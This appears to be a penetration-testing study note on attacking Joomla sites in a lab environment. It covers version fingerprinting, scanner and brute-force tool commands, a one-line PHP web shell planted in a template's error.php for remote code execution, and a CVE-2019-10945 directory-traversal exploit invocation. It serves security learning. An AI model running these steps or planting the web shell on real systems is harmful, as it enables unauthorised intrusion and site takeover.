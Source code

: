 ```yaml
---
title: pentesting joomla
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - CMS
  - joomla
---
```

# Pentesting joomla

Querying this API, we can see over 3 million Joomla installs!

```shell-session
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool
```

## Important Joomla files and directories

Spot the use of Joomla:

```shell-session
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

Interesting files:

- robot.txt
- the telltale Joomla favicon


## Joomla version

For spotting the version we can:

**1.** Read the README.txt file

```shell-session
curl -s http://$target/README.txt | head -n 5
```

**2.** Fingerprint the version from JavaScript files in the media/system/js/ directory or by browsing to administrator/manifests/files/joomla.xml.

```shell-session
curl -s http://$target/administrator/manifests/files/joomla.xml | xmllint --format -
```

**3.** Obtain the  `cache.xml` file.  It is located at `plugins/system/cache/cache.xml`.


```shell-session
curl -s http://$target/plugins/system/cache/cache.xml 
```

Run a generic scan with [droopescan](droopescan.md)

```
# Run a generic scan
droopescan scan joomla --url http://$target/
```

Output:

```
Detailed version information. - http://app.inlanefreight.local/administrator/manifests/files/joomla.xml
    Login page. - http://app.inlanefreight.local/administrator/
    License file. - http://app.inlanefreight.local/LICENSE.txt
    Version attribute contains approx version - http://app.inlanefreight.local/plugins/system/cache/cache.xml

```


Drive a generic scan with [joomlascan](joomlascan.md):

```
# As I have a virtual environment for 2.7:
pyenv activate 27

# Install joomlascan
git clone https://github.com/drego85/JoomlaScan.git
cd JoomlaScan

# Run the generic scan
python2.7 joomlascan.py -u http://$target

```

## Login page

Admin login page located at `http://$target/administrator/index.php`

Author login page located at `http://$target/index.php/author-login`.

The default administrator account on Joomla installs is admin, but the password is set at install time.

### joomla-bruteforce

Install from:

```
git clone https://github.com/ajnik/joomla-bruteforce.git
cd joomla-bruteforce
```

And run: 
```shell-session
sudo python3 joomla-brute.py -u http://$target -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```


## the template feature

Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

We may include this line in the error.php page

```php
system($_GET['cmd']);
```

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
curl -s http://$target/templates/protostar/error.php?cmd=id
```


## Leveraging enumeration for escalating

Once we know the version of our joomla, we may find vulnerabilities attached to it.

For instance, version 3.9.4 is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. 


We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories.

```
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```

